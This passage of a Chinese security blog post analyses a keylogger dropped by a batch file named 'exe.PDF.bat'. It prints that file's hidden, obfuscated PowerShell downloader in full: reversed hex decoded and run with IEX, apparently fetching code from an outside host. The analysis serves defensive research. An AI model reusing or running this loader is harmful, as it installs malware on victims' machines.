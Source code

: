 > 原文链接: https://www.anquanke.com//post/id/217794 


# 一款由非PE加载起来的新型KeyLogger分析


                                阅读量   
                                **141033**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t015e66b18a09443a9c.jpg)](https://p3.ssl.qhimg.com/t015e66b18a09443a9c.jpg)



## 0x00 前言

样本来源于日常app.any.run的样本

样本MD5：71bdecdea1d86dd3e892ca52c534fa13

样本上传名：exe.PDF.bat

样本上传时间，就是今天（2020年9月10日）下午四点十分

可以看到any.run已经将其标记为恶意并且可以从 any.run的沙箱中看到恶意行为是执行了一段powershell指令。

[![](https://p1.ssl.qhimg.com/t01c74fc81c8b4c752f.png)](https://p1.ssl.qhimg.com/t01c74fc81c8b4c752f.png)

在VT上查了一下样本，惊奇的发现，现在居然只有一家厂商给出了明确的报毒：Downloader.WannaMine

[![](https://p3.ssl.qhimg.com/t01ba707c6620a7644a.png)](https://p3.ssl.qhimg.com/t01ba707c6620a7644a.png)



## 0x01 原始样本

原始样本的确是bat的文件，编辑工具加载后内容如下：

[![](https://p5.ssl.qhimg.com/t01276f5196e3d8d455.png)](https://p5.ssl.qhimg.com/t01276f5196e3d8d455.png)

```
@echo off

Start /MIN Powershell -WindowStyle Hidden -command "$Dxjyp='D4@C7@72@72@02@E6@96@F6@A6@D2@02@37@27@16@86@34@96@96@36@37@16@42@02@D3@76@E6@96@27@47@35@96@96@36@37@16@42@B3@D7@22@F5@42@87@03@22@D5@56@47@97@26@B5@D5@27@16@86@36@B5@B7@02@47@36@56@A6@26@F4@D2@86@36@16@54@27@F6@64@C7@02@72@D2@72@02@47@96@C6@07@37@D2@02@67@D6@42@02@D3@37@27@16@86@34@96@96@36@37@16@42@B3@85@06@54@06@94@C7@72@92@72@72@76@07@A6@E2@23@13@14@F2@97@36@E2@D6@F6@36@E2@16@96@27@47@56@D6@F6@07@F6@47@F2@F2@A3@07@47@47@86@72@72@82@76@E6@96@72@B2@72@27@47@72@B2@72@35@72@B2@72@46@72@B2@72@16@F6@72@B2@72@C6@E6@72@B2@72@77@F6@72@B2@72@44@E2@72@B2@72@92@47@E6@56@72@B2@72@96@C6@72@B2@72@34@72@B2@72@26@56@72@B2@72@75@72@B2@72@E2@47@72@B2@72@56@E4@72@02@B2@72@02@47@72@B2@72@36@72@B2@72@56@A6@72@B2@72@26@72@B2@72@F4@D2@72@B2@72@77@56@72@B2@72@E4@82@72@D3@67@D6@42@B3@23@23@07@42@02@D3@02@C6@F6@36@F6@47@F6@27@05@97@47@96@27@57@36@56@35@A3@A3@D5@27@56@76@16@E6@16@D4@47@E6@96@F6@05@56@36@96@67@27@56@35@E2@47@56@E4@E2@D6@56@47@37@97@35@B5@B3@92@23@73@03@33@02@C2@D5@56@07@97@45@C6@F6@36@F6@47@F6@27@05@97@47@96@27@57@36@56@35@E2@47@56@E4@E2@D6@56@47@37@97@35@B5@82@47@36@56@A6@26@F4@F6@45@A3@A3@D5@D6@57@E6@54@B5@02@D3@02@23@23@07@42@B3@92@76@E6@96@07@42@82@02@C6@96@47@E6@57@02@D7@47@56@96@57@15@D2@02@13@02@47@E6@57@F6@36@D2@02@D6@F6@36@E2@56@C6@76@F6@F6@76@02@07@D6@F6@36@D2@02@E6@F6@96@47@36@56@E6@E6@F6@36@D2@47@37@56@47@02@D3@02@76@E6@96@07@42@B7@02@F6@46@B3@56@E6@F6@26@45@42@02@D4@02@C6@16@37@B3@92@72@94@72@C2@72@A2@72@82@56@36@16@C6@07@56@27@E2@72@85@54@A2@72@D3@56@E6@F6@26@45@42';$text =$Dxjyp.ToCharArray();[Array]::Reverse($text);$tu=-join $text;$jm=$tu.Split('@') | forEach `{`[char]([convert]::toint16($_,16))`}`;$jm -join ''|I`E`X"
```